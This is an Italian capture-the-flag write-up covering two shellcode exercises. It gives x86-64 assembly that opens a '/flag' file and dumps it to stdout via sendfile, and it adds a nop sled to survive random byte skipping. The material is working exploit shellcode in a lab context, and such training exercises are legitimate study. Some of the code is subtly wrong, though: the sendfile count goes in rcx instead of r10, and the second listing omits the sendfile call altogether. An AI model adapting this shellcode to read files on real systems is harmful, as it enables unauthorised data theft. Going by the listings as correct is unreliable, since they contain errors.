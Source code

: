 # Shellcode Exercises

## Esercizio 1
Primo esercizio si basa sul chiedere di aprire il file con la syscall open (2) e successivamente mandarlo in output con la syscall sendfile (40) 
```
.intel_syntax noprefix
.global _start

_start:

    #open
    mov rax, 0x67616c662f
    push rax
    lea rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall

    #sendfile
    mov rsi, rax
    mov rax, 0x28
    mov rdi, 1
    mov rdx, 0
    mov rcx, 0x64
    syscall

```

* nota: 0x67616c662f è "/flag" in little endian e si può ottenere aprendo ipython
```
In [1]: print("/flag".encode().hex())
2f666c6167
```
e poi fare il reverse dei byte.

## Esercizio 2
Questo esercizio dice "This challenge will randomly skip up to 0x800 bytes in your shellcode. You better adapt to  that! One way to evade this
is to have your shellcode start with a long set of single-byte instructions that do nothing , such as `nop`, before the actual functionality of your code begins. When control flow hits any of these instructions,  they will all harmlessly" quindi quello che si deve fare è semplicemente inserire 0x800 nop prima dell'esecuzione del nostro codice

```
.intel_syntax noprefix
.global _start

_start:
    .rept 0x800
     nop
    .endr

    #open
    mov rax, 0x67616c662f
    push rax
    lea rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall

```